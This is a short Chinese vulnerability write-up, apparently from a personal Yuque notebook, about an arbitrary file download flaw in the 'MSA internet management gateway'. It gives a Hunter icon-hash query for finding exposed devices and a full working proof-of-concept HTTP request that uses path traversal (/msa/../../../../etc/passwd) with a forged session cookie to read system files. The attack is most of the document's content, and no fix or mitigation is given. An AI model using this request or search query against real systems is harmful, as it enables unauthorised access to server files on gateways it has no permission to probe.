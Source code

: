 # MSA 互联网管理网关 msa 任意文件下载漏洞

# 一、漏洞简介
MSA 互联网管理网关存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器任意文件

# 二、影响版本
+ MSA 互联网管理网关

# 三、资产测绘
+ hunter`web.icon=="73043af39b293ade8de257c2370de7bd"`
+ 特征

![1700220436423-12e9551e-d966-4699-88e7-29994ba0e863.png](./img/rLV0S0GyUOO9zx0g/1700220436423-12e9551e-d966-4699-88e7-29994ba0e863-060740.png)

# 四、漏洞复现
```plain
GET /msa/../../../../etc/passwd HTTP/1.1
Host: xx.xx.xx.xx
Cookie: msasessionid=-1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

![1700220466285-4e1ffc5d-51d5-48f8-a65c-55206c11be18.png](./img/rLV0S0GyUOO9zx0g/1700220466285-4e1ffc5d-51d5-48f8-a65c-55206c11be18-983178.png)



> 更新: 2024-02-29 23:57:13  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gysgn5ydeuqlba2w>